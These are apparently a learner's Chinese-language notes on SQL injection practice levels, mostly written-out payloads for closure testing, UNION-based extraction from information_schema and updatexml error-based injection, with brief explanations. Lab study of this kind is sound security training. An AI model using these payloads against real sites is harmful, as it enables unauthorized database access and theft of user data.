

截图：先按下面两个，再按a
# 习惯流程
- ?id=1
- ?id=1 and 1=2
- ?id=1 and 1=2 -- a
- ?id=1' and 1=2 -- a
- ?id=1 and 1=2' -- a
- ?id=1" and 1=2 -- a
......
# 总
- 先找出能正常执行的语句
- database(),updatexml
- 前面的语句（单引，双引，括号）+and 1=2 如果页面有变化，说明后面的语句被执行
- 先看能不能直接注入，再加上'尝试闭合，再')，再",
- 看结果：选择联合注入、布尔盲注

首先要通过一些语句来判断是否存在注入点，观察是否存在页面变化
limit从0开始计算
database()返回数据库名称，table_schema是数据库名称
table_name得到表名

# 资料
[b站](https://www.bilibili.com/video/BV1aS4y1W78p?p=3&vd_source=2552ef659ebde2f6dadff1230dbbb677)
# 1 (' ----- %27)
- ?id=1

- ?id=1 and 1=2(没变化，说明1=2没有被执行)

- ?id=1' and 1=1 -- a(a可以换，防止--后面的空格被忽略)

- ?id=1' and 1=2 -- a【页面异常，说明将1=2当作代码执行。可能存在sqli漏洞】

- ?id=1'order by 1 -- a（order by 1 表示按查询结果的第 1 列排序，尝试1，2，3）

- ?id=1'order by 4 -- a【异常】【说明有三个字段】

- ?id=1' union select 1,22,333 -- a(union用于将两个或多个 SELECT 语句的结果合并成一个结果集)【用联合查询】(依旧没变化)

- ?id=-1'union select 1,22,333 -- a（因为id=1显示在前面，所以没有显示后面的结果）（现错位）【核心目的：通过不同数字的显示情况，精准定位哪些字段会被页面输出，为后续替换成数据库函数（如database()、version()）或敏感数据（如用户名、密码）做准备】

- ?id=-1'union select 1,database(),333 -- a【database()用于返回当前数据库的名称】

- ?id=-1'union select 1,table_name,333 from information_schema.tables where table_schema='security' -- a(information_schema是 MySQL 内置的系统数据库，存储了整个数据库的元数据（如数据库名、表名、字段名等）。tables是information_schema中的表，专门存储所有表的信息，其中table_name字段记录表名，table_schema字段记录该表所属的数据库名。)【判断表名】

- ?id=-1'union select 1,table_name,333 from information_schema.tables where table_schema='security' limit 1,1 -- a【改变limit后的值，得出不同的结果】(注意table哪里有s)

- ?id=-1'union select 1,column_name,333 from information_schema.columns where table_schema='security'and table_name='emails' -- a【判断列名】

- ?id=-1'union select 111,email_id,333 from emails -- a（都可以加limit）

- 库名security
  - 表名emails、referers、uagents、users
    - 列名
    - emails：id\email_is\
    - referers:id\referer\ip_adress
    - uagents:uagent\ipadress\username
    - users:id\username\passwards

# 2
- ?id=1
- ?id=1'   和   ?id=1"  都报错

- ?id=1 and 1=2   和  ?id=1 and 1=1  结果不同（说明可能可以不用加'直接注入）

- ?id=1 order by 1 -- a(只能到3)

- ?id=-1 union select 111,222,333 -- a【说明可以注入】

- ?id=-1 union select 111,database(),333 -- a
- ?id=-1 union select 111,table_name,333 from information_schema.tables where table_schema='security' limit 0,1 -- a
- ?id=-1 union select 111,column_name,333 from information_schema.columns where table_schema='security' and table_name='emails' limit 0,1 -- a
- ?id=-1 union select 111,id,333 from emails -- a

# 3
- ?id=1
- ?id=1'

- ?id=1 and 1=2(照样有输出)【和第二题返回的信息不同，有括号】

- ?id=1) and 1=1

- ?id=1) and 1=2 

- sql语句可能是：（在括号里面不会被当作代码执行）

- ?id=1') and 1=2 

- ?id=1') order by 1 -- a(只能到4)

- ?id=-1') union select 111,222,333 -- a
......

# 4
- ?id=1' and 1=2(说明1=2没有执行，可能在括号内)

- ?id=1') and 1=2(还是没反应)

- ?id=1" and 1=2(双引号，有反应)

- ?id=1" order by 1 -- a

- ?id=1") order by 1 -- a

- ?id=-1") union select 111,222,333 -- a

......

# 5
- ?id=1

- ?id=1' and 1=2(可能存在)

- ?id=1' and 1=2 -- a

- ?id=1' and 1=1 -- a

- ?id=1' order by 1 -- a（到4时到头）

- ?id=-1' union select 111,222,333 -- a(无现错位)

- 【联合注入是需要页面有回显位】
- 【如果数据不显示只有对错页面显示我们可以选择布尔盲注】
- 【布尔盲注主要用到length(),ascii() ,substr()这三个函数，首先通过length()函数确定长度再通过另外两个确定具体字符是什么】
- 【或者可以试试报错注入，比盲注方便 updataxml() 】【语法：updatexml(目标xml内容，xml文档路径，更新的内容)】

- 【updatexml(1,concat(0x7e,(SELECT database()),0x7e),1)】(前面用and链接)

- ?id=1'and updatexml(1,concat(0x7e,(SELECT database()),0x7e),1) -- a（查出了库名）【date!!!】

- ?id=1'and updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema='security'limit 0,1),0x7e),1) -- a【后面记得用 -- 】

- ?id=1'and updatexml(1,concat(0x7e,(select column_name from information_schema.columns where table_schema='security'and table_name='emails'limit 0,1),0x7e),1) -- a【中间核心那一坨要加上括号,也不要忘了select!!!!】【不是schema_table】【0x7e不要忘！】【limit从0开始，substr从1开始】

- ?id=1' and updatexml(1,concat(0x7e,(select id from emails limit 0,1),0x7e),1) -- a
